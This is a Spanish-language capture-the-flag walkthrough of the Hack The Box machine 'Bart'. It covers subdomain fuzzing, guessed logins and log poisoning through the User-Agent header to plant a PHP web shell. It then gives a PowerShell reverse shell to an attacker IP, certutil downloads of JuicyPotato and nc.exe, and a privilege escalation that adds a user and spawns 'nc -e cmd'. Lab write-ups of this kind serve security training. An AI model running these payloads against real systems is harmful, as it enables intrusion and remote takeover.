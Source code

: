 # 10.10.10.81 - Bart
--------------------

Puertos abiertos 80(http):
```console
└─$ whatweb http://10.10.10.81
HTTPServer[Microsoft-IIS/10.0], PHP[7.1.7], RedirectLocation[http://forum.bart.htb/], X-Powered-By[PHP/7.1.7]
ERROR Opening: http://forum.bart.htb/ - no address for forum.bart.htb
```
Ya el reconocimiento nos dice que hay dos subdominios interesantes:

```console
└─$ whatweb http://forum.bart.htb/
Email[d.simmons@bart.htb,h.potter@bart.htb,info@bart.htb,r.hilton@bart.htb,s.brown@bart.loca,s.brown@bart.local], HTML5, HTTPServer[Microsoft-IIS/10.0], JQuery, MetaGenerator[WordPress 4.8.2], Microsoft-IIS[10.0]

└─$ wfuzz -t 200 --hw=5628 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://bart.htb/FUZZ/
000000054:   200        548 L    2412 W     35529 Ch    "forum"
└─$ wfuzz -t 200 --hw=5628 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://bart.htb/FUZZ.php
000000002:   302        0 L      0 W        0 Ch        "index"
```

Si entramos en /forum nos da error
Forum.bart nos da al mismo sitio.

```console
└─$ wfuzz -c --hw=0 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.bart.htb" -u http://bart.htb/ -t 100

000000023:   200        548 L    2412 W     35529 Ch    "forum"
000000099:   200        80 L     221 W      3423 Ch     "monitor"
```

Nos dan un panel de login. 

/POST a http://monitor.bart.htb/
{"csrf":"9cc6a04531b9c32001c04abc517839b1ddd6b040190b2daf8e81e49ec5bd3de8","user_name":"admin","user_password":"admin","action":"login"}

Por ser php intento bypasearlo con cosas como password=true (type juggling)

```console
└─$ wfuzz -t 200 --hw=12 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://monitor.bart.htb/FUZZ.php
000000002:   200        80 L     221 W      3423 Ch     "index"
000000702:   200        90 L     283 W      3714 Ch     "install"
000001477:   200        0 L      0 W        0 Ch        "config"
└─$ wfuzz -t 200 --hw=12 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://monitor.bart.htb/FUZZ/
000000256:   200        7 L      10 W       140 Ch      "static"
000000770:   200        7 L      10 W       140 Ch      "src"
000002410:   200        7 L      10 W       140 Ch      "cron"
```

install.php nos resuelve a una web que dice de instalar el programa, bajo ```/install.php?action=``` se efectuan
acciones como "install" o "config" (fuzee pero no hay mas)

La parte de forgot password nos pide un "nombre"

En la web de bart salian los nombres de tres personas:
```
└─$ curl -s http://bart.htb/forum/ | grep -E "name|mail" | tr -d "\n" > users.txt
```
```
Samantha Brown -> s.brown@bart.local
Daniel Simmons -> d.simmons@bart.htb  -> existe
Robert Hilton -> r.hilton@bart.htb
Harvey Potter -> h.potter@bart.htb    -> existe
```
En la parte de login como contraseña pruebo antes de hacer fuzzing, tanto "bart" como los apellidos de los 
usaurios. Resuelve el nombre "harvey" con la contraseña "potter".


En /servers sale un nuevo dominio ```internal-01.bart.htb```

Nos volvemos a topar con otro panel de login

/login.php -> "uname":"test","passwd":"test","submit":"Login"
```console
└─$ curl -X POST -s "http://internal-01.bart.htb/simple_chat/login.php" -d "uname=test&passwd=test&submit=Login"
# Nada
```
```console
└─$ wfuzz -t 200 --hw=12 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt "http://internal-01.bart.htb/simple_chat/FUZZ.php"
000000001:   302        0 L      0 W        0 Ch        "index"
000000051:   302        0 L      0 W        0 Ch        "register"
000000039:   302        0 L      0 W        0 Ch        "login"
000000324:   302        2 L      0 W        4 Ch        "chat"
000001144:   302        0 L      0 W        0 Ch        "logout"

└─$ curl -s "http://internal-01.bart.htb/simple_chat/register.php" -d "uname=cucuxii&passwd=cucuxii123"
# EN el navegador da error pero aquí funciona.
```

Al poner las creds otra vez en el panel de registro, "cucuxii" "cucuxii123" entramos.
En network salen peticiones /POST a "/simple-chat/chat.php"
```@harvey: DUDE! Do not place development code in here, this is a production server!```
Posibles inyecciones de todo tipo no funionan "<script>alert(1)</script>", "{{7*7}}"

La peticion es:
```console
└─$ curl -s http://internal-01.bart.htb/ -H "Cookie: PHPSESSID=npju0k7b5bireh5g8gld8frtsb" > main.js
# http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey
```
```
http://internal-01.bart.htb/log/log.php?filename=C:\Windows\System32\Drivers\etc\hosts&username=daniel # permision denied
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=daniell -> 0
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=daniel -> 1
```
```console
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=log.php&username=daniel'
└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=test.php&username=daniel'
1[2022-12-20 11:34:03] - daniel - curl/7.84.0
└─$ curl -s 'http://internal-01.bart.htb/log/test.php'
[2022-12-20 11:34:19] - daniel - curl/7.84.0  

└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=test.php&username=daniel' \
> -H 'User-Agent: <?php system("whoami")?>'
└─$ curl -s 'http://internal-01.bart.htb/log/test.php'
[2022-12-20 11:34:19] - daniel - curl/7.84.0[2022-12-20 11:37:07] - daniel - curl/7.84.0[2022-12-20 11:37:40] - daniel - nt authority\iusr

└─$ curl -s 'http://internal-01.bart.htb/log/log.php?filename=testt.php&username=daniel' -H 'User-Agent: <?php system($_REQUEST['cmd']); ?>'
└─$ curl -s 'http://internal-01.bart.htb/log/testt.php?cmd=whoami'
[2022-12-20 11:46:09] - daniel - nt authority\iusr

└─$ curl -s "http://internal-01.bart.htb/log/testt.php?cmd=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.16%27%2C666%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```

Esta es la version urlencodeada de la reverse shell de una sola linea:
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


```console
PS C:\Windows\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

JuicyPotato.exe


PS C:\Windows\Temp\Prueba> certutil.exe -f -urlcache -split http://10.10.14.16/JP.exe
PS C:\Windows\Temp\Prueba> ./JP.exe -t * -l 6666 -p C:\Windows\System32\cmd.exe -a "/c net user cucuxii cucuxii123 /add" # error

PS C:\Windows\Temp\Prueba> ./JP.exe -t * -l 6666 -p C:\Windows\System32\cmd.exe -a "/c net user cucuxii cucuxii123 /add" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"

PS C:\Windows\Temp\Prueba> certutil.exe -f -urlcache -split http://10.10.14.16/nc.exe

PS C:\Windows\Temp\Prueba> ./JP.exe -t * -l 6666 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Prueba\nc.exe -e cmd 10.10.14.16 443" -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"

└─$ sudo nc -nlvp 443
C:\Windows\system32>whoami


C:\Users>cmd /c dir /r /s user.txt # Directory of C:\Users\h.potter\Desktop

